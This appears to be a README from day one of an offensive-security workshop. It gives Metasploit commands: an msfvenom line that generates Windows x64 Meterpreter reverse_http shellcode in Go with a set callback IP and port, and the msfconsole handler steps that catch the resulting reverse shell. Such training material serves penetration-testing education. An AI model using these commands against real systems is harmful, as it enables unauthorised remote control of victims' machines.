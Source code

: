 <div align="center">
  <h1>Day 01</h1>
  <br/>
</div>

<h4><a href="https://docs.google.com/presentation/d/1FN5lp1BmMC50iKv0Atp-tVLaKw6Q2IjRZ8m1_yLrcZ8/edit?usp=sharing">Slides</a></h4>
<br>

<h2>Metasploit commands:</h2>
<h3>Shellcode generation:</h3>
<ul>
<li>msfvenom -p windows/x64/meterpreter/reverse_http LHOST=10.10.61.38 LPORT=9999 -f go</li>
</ul>

<h3>Listener:</h3>
<ol>
<li>msfconsole</li>
<li>exploit/multi/handler</li>
<li>set payload windows/x64/meterpreter/reverse_http</li>
<li>set LHOST <<IP address>IP Address></li>
<li>set LPORT <<Port>Port></li>
<li>run</li>
</ol>
